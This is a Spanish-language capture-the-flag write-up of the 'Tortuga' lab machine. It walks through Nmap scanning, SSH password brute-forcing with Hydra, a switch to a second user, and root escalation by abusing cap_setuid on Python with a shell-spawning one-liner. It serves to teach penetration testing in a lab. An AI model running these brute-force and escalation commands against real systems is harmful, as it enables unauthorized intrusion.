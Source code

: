 # Tortuga CTF - Writeup

## 1. Resumen
Este documento describe el proceso de resolución de la máquina **Tortuga** de *The Hackers Labs*. El objetivo es comprometer el sistema objetivo, obtener acceso inicial y escalar privilegios hasta convertirse en **root**. Se emplearon herramientas clásicas de pentesting como **Nmap**, **Hydra** y el análisis de **Linux Capabilities**.

---

## 2. Fase de Reconocimiento

### 2.1 Escaneo con Nmap
Comenzamos con un escaneo completo de puertos y detección de servicios:

```bash
sudo nmap -p- --open -sCV -Pn -n <IP>
```

**Parámetros:**
- `-p-`: Escanea todos los puertos (1-65535)
- `--open`: Muestra solo puertos abiertos
- `-sCV`: Scripts por defecto + detección de versiones
- `-Pn`: Omite el ping previo (en nuestro caso, a principio la máquina no respondía al ping)
- `-n`: No resuelve DNS

**Resultados principales:**
```
22/tcp  open  ssh     OpenSSH 9.2p1 Debian
80/tcp  open  http    Apache httpd 2.4.62 (Debian)
```

**Análisis:**
- **Puerto 22 (SSH):** Posible vector de fuerza bruta. (vamos entrar por acá :)
- **Puerto 80 (HTTP):** Sitio web activo que podría contener información sensible y pistas ocultas. Navegando por esta web encontramos indicios importantes para avanzar en el CTF.
---

## 3. Exploración del Servicio Web

Al acceder vía navegador encontramos una página con secciones que contenían pistas. En `mapa.php` se mencionaba un **usuario grumete**, sugiriendo un posible objetivo para SSH.

---

## 4. Ataque de Fuerza Bruta SSH

Utilizamos **Hydra** con el diccionario **rockyou.txt**:

```bash
hydra -l grumete -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

**Explicación:**
- `-l grumete`: Usuario identificado.
- `-P rockyou.txt`: Diccionario de contraseñas.
- `ssh://<IP>`: Servicio objetivo.

**Resultado:**
```
password:1234
```

Accedemos con éxito vía SSH:

```bash
ssh grumete@<IP>
```

---

## 5. Movimiento Lateral

Al explorar el sistema, encontramos otro usuario llamado **capitan** en `/etc/passwd`. Una nota oculta revelaba su contraseña, permitiendo cambiar de usuario:

```bash
su capitan
```

Este movimiento corresponde a una **escalada de privilegios horizontal**.

---

## 6. Escalada de Privilegios a Root

### 6.1 Enumeración de Capabilities
Buscamos **Linux Capabilities**:

```bash
getcap -r / 2>/dev/null
```

**Resultado:**
```
/usr/bin/python3.11 = cap_setuid+ep
```

### 6.2 Análisis
La capability **cap_setuid** permite a un proceso cambiar su UID. Si se abusa en Python, podemos elevarnos a root.

### 6.3 Explotación
Ejecutamos:

```bash
python3.11 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Obtenemos shell como **root**.

---

## 7. Búsqueda de la Flag

```bash
find / -name root.txt 2>/dev/null
```

Una vez localizada, podemos leerla:

```bash
cat /ruta/a/root.txt
```

---

## 8. Conceptos Técnicos Explicados

### 8.1 Linux Capabilities
Son fragmentos de privilegios de root que se pueden asignar a binarios. Permiten mayor granularidad en lugar de otorgar permisos completos.

### 8.2 Riesgo de `cap_setuid`
Normalmente un usuario no puede cambiar su UID. Con esta capability, Python puede ejecutar código como root, abriendo la puerta a una **escalada vertical de privilegios**.

---

## 9. Conclusiones

Esta máquina refleja una cadena de ataque clásica:
- Reconocimiento con **Nmap**.
- Fuerza bruta con **Hydra**.
- Escalada horizontal mediante credenciales.
- Explotación de **capabilities** para root.

📌 Lección clave: configuraciones inseguras en servicios y permisos pueden comprometer todo un sistema.



by Qb1t